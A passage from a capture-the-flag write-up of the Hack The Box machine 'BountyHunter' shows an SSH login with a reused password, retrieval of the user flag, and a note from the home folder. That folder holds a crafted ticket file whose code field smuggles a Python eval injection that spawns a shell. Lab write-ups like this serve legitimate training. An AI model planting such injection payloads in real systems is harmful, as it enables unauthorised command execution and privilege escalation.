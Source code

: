 ## User Flag

At last we have some credentials. It turns out this password was reused with the development account we found from the passwd file earlier:

```text
┌──(root💀kali)-[~/htb/bountyhunter]
└─# ssh development@bountyhunter.htb                
The authenticity of host 'bountyhunter.htb (10.10.11.100)' can't be established.
ECDSA key fingerprint is SHA256:3IaCMSdNq0Q9iu+vTawqvIf84OO0+RYNnsDxDBZI04Y.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'bountyhunter.htb,10.10.11.100' (ECDSA) to the list of known hosts.
development@bountyhunter.htb's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)
Last login: Mon Sep 27 17:53:36 2021 from 10.10.14.27
development@bountyhunter:~$ 
```

We're in as the development user, let's grab the user flag:

```text
development@bountyhunter:~$ cat /home/development/user.txt 
<HIDDEN>
```

## Python Script

Looking in their home folder we see two more files:

```text
development@bountyhunter:~$ ls
contract.txt  user.txt  vulnerable.md


development@bountyhunter:~$ cat contract.txt 
Hey team,

I'll be out of the office this week but please make sure that
our contract with Skytrain Inc gets completed.

This has been our first job since the "rm -rf" incident and we
can't mess this up. Whenever one of you gets on please have a
look at the internal tool they sent over. There have been a
handful of tickets submitted that have been failing validation
and I need you to figure out why.

I set up the permissions for you to test this. Good luck.
-- John

development@bountyhunter:~$ cat vulnerable.md 
# Skytrain Inc
## Ticket to 
__Ticket Code:__
**32+__import__('os').system('/bin/bash')
```
